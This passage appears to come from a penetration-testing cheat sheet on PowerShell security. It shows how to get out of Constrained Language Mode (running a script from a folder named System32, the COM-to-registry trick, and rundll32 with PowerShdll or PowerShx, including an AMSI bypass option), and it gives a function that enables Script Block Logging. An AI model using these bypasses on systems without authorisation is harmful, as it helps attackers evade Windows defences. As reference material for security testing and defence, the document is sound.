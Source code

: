    # Simple bypass, execute inside a System32 folder
    PS C:\> C:\Users\Public\check-mode.ps1
    ConstrainedLanguage

    PS C:\> C:\Users\Public\System32\check-mode.ps1
    FullLanguagge
    ```

* Bypass using COM: [xpn/COM_to_registry.ps1](https://gist.githubusercontent.com/xpn/1e9e879fab3e9ebfd236f5e4fdcfb7f1/raw/ceb39a9d5b0402f98e8d3d9723b0bd19a84ac23e/COM_to_registry.ps1)
* Bypass using your own Powershell DLL: [p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) & [iomoath/PowerShx](https://github.com/iomoath/PowerShx) 
    ```ps1
    rundll32 PowerShdll,main <script>
    rundll32 PowerShdll,main -h      Display this message
    rundll32 PowerShdll,main -f <path>       Run the script passed as argument
    rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default)
    rundll32 PowerShdll,main -i      Start an interactive console in this console

    rundll32 PowerShx.dll,main -e                           <PS script to run>
    rundll32 PowerShx.dll,main -f <path>                    Run the script passed as argument
    rundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet>     Load a script and run a PS cmdlet
    rundll32 PowerShx.dll,main -w                           Start an interactive console in a new window
    rundll32 PowerShx.dll,main -i                           Start an interactive console
    rundll32 PowerShx.dll,main -s                           Attempt to bypass AMSI
    rundll32 PowerShx.dll,main -v                           Print Execution Output to the console
    ```


### Script Block Logging

> Once Script Block Logging is enabled, the script blocks and commands that are executed will be recorded in the Windows event log under the "Windows PowerShell" channel. To view the logs, administrators can use the Event Viewer application and navigate to the "Windows PowerShell" channel.

Enable Script Block Loggin:

```ps1
function Enable-PSScriptBlockLogging
{
    $basePath = 'HKLM:\Software\Policies\Microsoft\Windows' +
      '\PowerShell\ScriptBlockLogging'

    if(-not (Test-Path $basePath))
    {
        $null = New-Item $basePath -Force
    }

    Set-ItemProperty $basePath -Name EnableScriptBlockLogging -Value "1"
}
```
